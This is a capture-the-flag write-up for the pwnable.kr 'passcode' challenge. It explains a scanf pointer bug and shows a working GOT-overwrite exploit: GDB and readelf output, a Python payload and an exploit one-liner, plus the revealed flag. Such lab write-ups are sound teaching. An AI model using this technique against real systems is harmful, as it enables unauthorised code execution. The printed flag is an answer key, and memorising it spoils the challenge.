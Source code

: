 # PASSCODE
This is the 5th challenge @ `pwnable.kr`
Let's Start!

In this challenge we get the source code of the binary.

## Source Code
Let's take a look at the source code:
```C
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

There is 2 vulnerabilities in the code (both are in the usage of the `scanf` function).
## Vulnerabilities + `scanf` usage
The `scanf` function allowing receiving  a string from the user, parse it to another type and save it to a variable.
For example, to get the age of someone:
```C
int age;
scanf("%d", &age);
```
- The user types an integer (e.g., `25`) and presses Enter.
- `scanf` stores this value in the memory location of `age`.
Nice, now let's take a look on the vulnerabilities:
### `maximum field width` - one byte (zero) buffer overflow
The first one (which is not helpful in our case) is a one byte buffer overflow in the `welcome` function.
```C
char name[100];
scanf("%100s", name);
```
We can look up the usage for the `scanf` function:
*An optional decimal integer which specifies the `maximum field width`. Reading of characters stops either when this maximum is reached or when a nonmatching character is found (space or null byte), whichever happens first. The maximum field width does not include this terminator.*
The buffer size needs to be `101` bytes long, and not `100` so it will be able to contain the additional null byte.
### pass by value vulnerability 
The second vulnerability is the other `scanf` usage:
```c
scanf("%d", passcode1);
```
Looks like the program forgot to use `&` to specify the pointer to `passcode1`! instead the program is passing the UNINITIALIZED value of `passcode1` into `scanf`. because the `scanf` function will write the input to the memory address - we might have a `Write-What-Where` gadget!
BTW. The right usage is:
```c
scanf("%d", &passcode1);
```
## Exploit!
Let's open the program in `GDB`, and disassemble `login`.
```sh
disass login
```
Let's check where the `passcode1` value is on the stack:
```sh
0x0804857c <+24>:	mov    -0x10(%ebp),%edx # this is passcode1 !
0x0804857f <+27>:	mov    %edx,0x4(%esp)
0x08048583 <+31>:	mov    %eax,(%esp)
0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
```
Looks like it is @ `$ebp-16` (`passcode2` is @ `$ebp-12`).
Let's add a break-point and run the program with the maximum input we can use:
```sh
break login
r
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Let's check the stack (starting from `passcode1`):
```sh
x/16x $ebp-16
# 0xffffd068:	0x61616161	0xaaad4e00	0x080486a0	0xf7ffcb80
# 0xffffd078:	0xffffd098	0x08048684	0x080487f0	0x00000000
```
Wait. Looks like our input is right on the spot! We can control the `passcode1` value with our last 4 bytes of our input!
Because the `pasccode1` variable is not initialized, our first input is writing to it!
we got the `WRITE-WHAT-WHERE` primitive! Amazing!
Let's use it to jump to part of function which is printing the flag.

### Global Offset Table - `GOT`
Every dynamically-linked binary need to load the libraries at runtime. Therefore it must contain something to map the functions it is using to an actual address - and that is the `Global Offset Table`.
Basically if the attacker is changing the offset of one of the function at the table, anytime the function will be called, it will go to the new specified address.

With our `Write-What-Where` gadget, we can change the offset of a function!
But let's first check where we want to jump.
Once again, let's disassemble `login`.
```sh
disass login
```
I decided to jump to `0x080485de`, which is just above the `system` call:
```
0x080485de <+122>:	call   0x8048450 <puts@plt>
0x080485e3 <+127>:	movl   $0x80487af,(%esp)
0x080485ea <+134>:	call   0x8048460 <system@plt>
```
Nice, let's see what dynamically loaded functions are being called in the binary.
- `printf`
- `scanf`
- `fflush`
Let's get those addresses from the `GOT`:
```sh
readelf -r passcode
#  Offset     Info    Type            Sym.Value  Sym. Name
# 0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
# 0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
# 0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
# 0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
# 0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
# 0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
# 0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
# 0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
# 0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

| function name | address      |
| ------------- | ------------ |
| `printf`      | `0x0804a000` |
| `scanf`       | `0x0804a020` |
| `fflush`      | `0x0804a004` |


Remember that our input can't contain any null bytes (`\x00`) or any spaces (`\x20`).
the `printf` contains a null byte, and the `scanf` contains a space. which leaving us with the `fflush` function.
Let's build the exploit!

## Building the exploit
let's look on what we have:
- the last 4 bytes will be the value of `passcode1`
- `passcode1` is the address we want to re-write (because of the miss-usage with `scanf`)
- the call to `scanf` allowing us to write any 4 bytes to `passcode1` (which we control)
We can use it to change the offset of the `fflush` function in the `GOT`, to the address of system.
and that is it.
The payload should look something like this:
```python
payload = ''
payload += 'a'*96 # filler
payload += '\x04\xa0\x04\x08' # fflush address -> 0x0804a004
payload += '\n' # new line to end the `scanf`
payload += '134514142' # the decimal value of 0x080485de (right before the call to system)
payload += '\n' # new line to end the `scanf`
payload += '10' # just to fill passcode2
payload += '\n' # new line to end the `scanf`
```
and the one-liner exploit:
```bash
python -c "print 'a'*96+'\x04\xa0\x04\x08'+'\n134514142\n10\n'" | ./passcode
# Toddler's Secure Login System 1.0 beta.
# enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
# enter passcode1 : ���$�{������U�T$�$������$������}��(
# Sorry mom.. I got confused about scanf usage :(
# Now I can safely trust you that you have credential :)
```
Flag -> `Sorry mom.. I got confused about scanf usage :(`.
Happy Hacking!
